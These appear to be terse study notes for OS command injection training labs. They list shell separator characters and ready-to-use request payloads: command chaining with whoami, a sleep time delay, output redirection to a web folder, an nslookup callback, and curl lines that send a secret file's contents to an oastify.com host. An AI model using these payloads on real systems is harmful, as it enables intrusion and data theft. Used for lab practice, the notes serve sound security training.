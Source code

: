 ____

The place to find OS Injection is in **Submit Feedback** page, usually in email input, but, just in case, scan the other inputs too

```
 &&
 &
 ||
 |
 ;
 `
 '
 "
 0x0a
 \n
```


```bash
email=carlos@exam.net||curl+`whoami`.OASTIFY.COM||
```

```bash
||$(curl $(cat /home/carlos/secret).OASTIFY.COM)||
```

https://www.youtube.com/watch?v=o7oVWXw4t5E

# OS command injection, simple case

```bash
productId=3&storeId=1;whoami
```

# Blind OS command injection with time delays

```bash
csrf=MHUzDCRAmx3TG1QrDY2ZLHl2jHKiuHJg&name=test&email=test%40test.com||sleep+10||&subject=test&message=test
```

```bash
email=carlos@exam.net||curl+`whoami`.ydfdn9eu9fmqnh4l1jbj2ocr0i68ux.oastify.com||
```

# Blind OS command injection with output redirection

```bash
csrf=hEZE4kGjoO0LidGJeSWj0GP6kZ6U8VlG&name=test&email=test%40test.com||whoami+>>+/var/www/images/test.txt||&subject=test&message=test
```

# Blind OS command injection with out-of-band interaction

```bash
csrf=JLmVMicftPWmhmy9AjLiFpbrbbTC5mQo&name=test&email=test%40test.com||nslookup+ydfdn9eu9fmqnh4l1jbj2ocr0i68ux.oastify.com||&subject=test&message=test
```
## Blind OS command injection with out-of-band data exfiltration


